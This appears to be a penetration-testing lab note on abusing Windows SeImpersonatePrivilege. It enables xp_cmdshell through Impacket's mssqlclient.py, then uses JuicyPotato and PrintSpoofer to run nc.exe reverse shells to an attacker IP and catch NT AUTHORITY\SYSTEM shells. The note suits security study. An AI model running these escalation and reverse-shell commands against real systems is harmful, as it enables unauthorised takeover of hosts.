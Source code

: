 # SeImpersonatePrivilege
The `SeImpersonatePrivilege` is a powerful security privilege in Microsoft Windows that allows a process to impersonate the security context of another user.

* `SeImpersonatePrivilege` allows a process to perform actions on behalf of another user
* Crucial for scenarios where a server application, such as a web server or a remote desktop service, needs to act on behalf of a client to access resources or perform operations

## How Does Impersonation Work?
1. Token Manipulation
* When a process has `SeImpersonatePrivilege`, it can create a token that represents the security context of another user
* This token can be attached to a thread, allowing that thread to perform actions as if it were the user associated with the token

2. Access Rights
* The thread running with an impersonation token can access resources and perform actions according to the permissions granted to the user represented by the token, rather than the permissions of the process that created the thread

## SeImpersonate Example using JuicyPotato
**Gaining a Foothold**
* An attacker gains access to an SQL server using a privileged SQL user account
* Attacker can execute commands and queries on the SQL server with high privileges

**Windows Authentication**
* SQL server and an IIS web server are configured to use Windows Authentication
* Allows users to log in to these services using Windows Credentials

**Resource Access Requirements**
* SQL server and IIS may need to access additional resources - such as file shares on a network
* To do this, they need to act on behalf of the client that established the connection

In this scenario, the SQL Service service account is running in the context of the default mssqlserver account. Imagine we have achieved command execution as this user using xp_cmdshell using a set of credentials obtained in a logins.sql file on a file share using the Snaffler tool.

### Connecting with MSSQLClient.py
* Using credentials 
* Connect to SQL server instance and confirm our privileges
* Use mssqlclient.py from Impacket toolkit

<pre>SQL > mssqlclient.py sql_dev@10.129.43.30 -windows-auth</pre>

### Enabling xp_cmdshell
* Enable the `xp_cmdshell` stored procedure to run operating system commands
* We can do this via Impacket MSSQL shell by typing `enable_xp_cmdshell`

<pre>SQL> enable_xp_cmdshell</pre>

* Confirm we are indeed running in the context of an SQL service account

<pre>SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01</pre>

### Check Account Privileges
<pre>SQL> xp_cmdshell whoami /priv

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled</pre>

* `SeImpersonatePrivilege` is listed
* Privilege can be used to impersonate a privileged account such as NT AUTHORITY\SYSTEM
* JuicyPotato can be used to exploit the SeImpersonate or SeAssignPrimaryToken privileges 

### Escalating Privileges using JuicyPotato
* Download JuicyPotato.exe binary
* Upload JuicyPotato.exe and nc.exe to the target server
* Setup a netcat listener on port 8443 and execute the command below

<pre>SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *</pre>

`-l 53375` : Specifies the COM server listening port  
`-p c:\windows\system32\cmd.exe` : Program to launch (cmd.exe)  
`-a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe"` : Arguments passed to `cmd.exe` > start `nc.exe` to create a reverse shell to local attacking machine on port 8443  
`-t *` : Tells JuicyPotato to try both `CreateProcessWithToken` and `CreateProcessAsUser` functions

### Catching SYSTEM Shell
<pre>sudo nc -lnvp 8443</pre>

<pre>C:\Windows\system32>whoami

whoami
nt authority\system


C:\Windows\system32>hostname

hostname
WINLPE-SRV01</pre>

## PrintSpoofer and RoguePotato
* JuicyPotato does not work on Windows Server 2019 and Windows 10 build 1809 onwards
* PrintSpoofer and RoguePotato can be used to gain the same privileges and `NT AUTHORITY\SYSTEM` level access

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/

### Escalating Privileges using PrintSpoofer
* Use the tool to spawn a SYSTEM process in current console and interact with it
* Connect with mssqlclient.py and use tool with the -c argument to execute
* Use nc.exe to spawn a reverse shell
* Netcat listener waiting on port 8443

<pre>SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"</pre>

### Catching Reverse Shell as SYSTEM
<pre>nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.30] 49847
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.


C:\Windows\system32>whoami

whoami
nt authority\system</pre>
